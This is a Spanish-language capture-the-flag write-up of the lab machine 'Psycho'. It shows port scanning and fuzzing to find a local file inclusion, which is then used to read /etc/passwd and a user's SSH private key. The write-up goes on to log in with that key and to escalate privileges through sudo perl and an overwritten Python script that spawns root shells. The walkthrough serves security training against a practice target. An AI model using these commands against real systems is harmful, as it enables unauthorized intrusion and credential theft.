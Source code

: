 ```yaml
---
description: '✍️ Autor: Luisillo_o🔍 Dificultad: Fácil  📅 Fecha de creación: 10/08/2024'
---
```


# Psycho

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (807).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (888).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (889).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web sea un presentación del CTF.

<figure><img src="../../.gitbook/assets/image (890).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios y archivos con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (891).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención el directorio `/assets` y contiene una imagen pero no es relevante. En el servidor web encontramos el siguiente mensaje: \[!] ERROR \[!]. Aprovechando este error y el hecho de que contamos con un archivo `index.php`, decidimos realizar un ataque de fuzzing en busca de un parámetro vulnerable.

```bash
wfuzz -c --hw 169 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://172.17.0.2/index.php?FUZZ=/etc/passwd
```

<figure><img src="../../.gitbook/assets/image (892).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Vamos a comprobar si hay un **LFI**.

```bash
http://172.17.0.2/index.php?secret=/etc/passwd
```

<figure><img src="../../.gitbook/assets/image (893).png" alt=""><figcaption></figcaption></figure>

Nos encontramos dos usuarios **luisillo** y **vaxei** pero realizando fuerza bruta no tenemos suerte por lo que probamos a coger el **id\_rsa** con **vaxei** tenemos suerte.

<figure><img src="../../.gitbook/assets/image (894).png" alt=""><figcaption></figcaption></figure>

La copiamos en nuestra máquina y le damos permisos.

```bash
chmod 600 id_rsa
```

Nos logueamos.

```bash
ssh -i id_rsa vaxei@172.17.0.2
```

<figure><img src="../../.gitbook/assets/image (895).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

Tenemos permisos **SUDO** con el usuario **luisillo** con **perl** revisamos esta [página](https://gtfobins.github.io/gtfobins/perl/).

```bash
sudo -u luisillo /usr/bin/perl -e 'exec "/bin/sh";'
```

<figure><img src="../../.gitbook/assets/image (896).png" alt=""><figcaption></figcaption></figure>

Vemos que permisos **SUDO** tenemos para escalar.

<figure><img src="../../.gitbook/assets/image (897).png" alt=""><figcaption></figcaption></figure>

Borramos el archivo y creamos el mismo archivo pero con este contenido para que establezca una **shell**.

```bash
import os

# Ejecutar bash
os.system("/bin/bash")
```

Ejecutamos para escalar a **root**.

```bash
sudo -u root /usr/bin/python3 /opt/paw.py
```

<figure><img src="../../.gitbook/assets/image (898).png" alt=""><figcaption></figcaption></figure>

